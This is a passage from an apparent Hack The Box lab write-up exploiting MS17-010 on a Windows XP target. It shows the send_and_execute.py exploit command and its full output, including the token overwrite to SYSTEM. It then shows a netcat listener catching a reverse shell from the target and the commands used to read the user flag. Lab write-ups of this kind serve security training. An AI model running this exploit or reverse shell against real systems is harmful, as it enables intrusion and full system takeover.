 ```bash
┌──(htb)─(kali㉿kali)-[~/Desktop/MS17-010]
└─$ python2 send_and_execute.py 10.10.10.4 rev_shell.exe             1 ⨯ 2 ⚙
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8202fd68
SESSION: 0xe1855430
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1951d00
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1951da0
overwriting token UserAndGroups
Sending file U0MPM5.exe...
Opening SVCManager on 10.10.10.4.....
Creating service smXX.....
Starting service smXX.....
The NETBIOS connection with the remote host timed out.
Removing service smXX.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

Finally, we will obtain a connection on the attacker machine. 

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.250] from (UNKNOWN) [10.10.10.4] 1028
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

#### Obtaining user flag

```bash
C:\WINDOWS\system32>cd ../..
cd ../..
C:\>cd Documents and Settings\john\desktop 
cd Documents and Settings\john\desktop
C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
<Redacted user flag>
```
